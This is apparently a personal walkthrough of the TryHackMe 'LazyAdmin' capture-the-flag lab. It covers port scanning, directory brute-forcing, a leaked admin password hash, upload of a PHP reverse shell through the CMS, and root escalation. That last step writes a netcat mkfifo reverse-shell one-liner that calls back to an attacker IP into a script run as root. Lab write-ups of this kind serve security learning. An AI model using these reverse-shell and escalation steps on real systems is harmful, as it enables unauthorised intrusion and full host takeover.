 ```yaml
---
title: TryHackMe - LazyAdmin
author: Bonface
date: 2024-10-31 00:00:00 +0000
categories: [TryHackMe]
tags: [tryhackme, linux, nmap, privesc, ssh, http, gobuster ]
---
```


# LazyAdmin

Easy Linux machine to practice your skills.  

# Tasks

capture the user and root flag.  

# nmap

## ip `10.10.24.121`

## Command 
```sh
nmap -sV -sC -v 10.10.24.121
```
## Results
```sh
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
| 2048 49:7c:f7:41:10:43:73:da:2c:e6:38:95:86:f8:e0:f0 (RSA)
| 256 2f:d7:c4:4c:e8:1b:5a:90:44:df:c0:63:8c:72:ae:55 (ECDSA)
|_ 256 61:84:62:27:c6:c3:29:17:dd:27:45:9e:29:cb:90:5e (ED25519)
80/tcp open http Apache httpd 2.4.18 ((Ubuntu))
| http-methods:
|_ Supported Methods: GET HEAD POST OPTIONS
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

# http_80

## ip `10.10.24.121`


To Do List
----------------------------------------------
- View the site
- source code
- Robots.txt
- gobuster



##  site

![[Pasted image 20241028210430.png]]


# gobuster

```sh
	gobuster dir -u http://10.10.24.121 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

## Results

```sh
/content
```


## /content
![[Pasted image 20241028210450.png]]

Nothing much so i run another gobuster on the directory hoping to find sub-directories  



## gobuster /content

## Command 
```sh
 gobuster dir -u http://10.10.10.216/content -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt

```
![[Pasted image 20241028210503.png]]

```sh
/inc
```
![[Pasted image 20241028210511.png]]

![[Pasted image 20241028210520.png]]


![[Pasted image 20241028210529.png]]

admin = manager  
password = 42f749ade7f9e195bf475f37a44cafcb\\  
Decoding the password = Password123  

![[Pasted image 20241028210548.png]]

log in using the details.  
![[Pasted image 20241028210603.png]]

Let's look around searching for an exploit vector.  
![[Pasted image 20241028210611.png]]

Get a reverse shell script *php change the ip then copy paste it.  
Now go to 10.10.10.216/content/inc/ads/shell.php but first run nc on your machine
```sh
nc -nlvp 1234
```

*Machine just expired let me start it again Damn all that progress!!! 

## ip `10.10.66.184`

## Commands
will have to start all over again :
1. 10.10.66.184/content/as
2. user = manager
3. password = Password123
4. Upload the reverse shell on ads management room
5. nc -nvlp 1234
6. `http://10.10.66.184/content/inc/ads/shell.php`

**now we have a shell !!!**

![[Pasted image 20241028210653.png]]

user flag = THM{...}
![[Pasted image 20241028210728.png]]



# priv esc

First lets stablelize the shell.  
```sh
python3 -c'importpty;pty.spawn("/bin/bash")'
export TERM=xterm
```

![[Pasted image 20241028210742.png]]
Let's first look at the backup.pl 
![[Pasted image 20241028210806.png]]

Runs the command with root previlage and we can read and execute it.  
The script runs another script  
![[Pasted image 20241028210833.png]]


```sh
echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.8.172.59 5554 >/tmp/f' >/etc/copy.sh
```
Run nc 
```sh
nc -nvlp 5554
```

On the machine run 
```sh
sudo /usr/bin/perl /home/itguy/backup.pl
```
Root flag = THM{...}
![[Pasted image 20241028210851.png]]

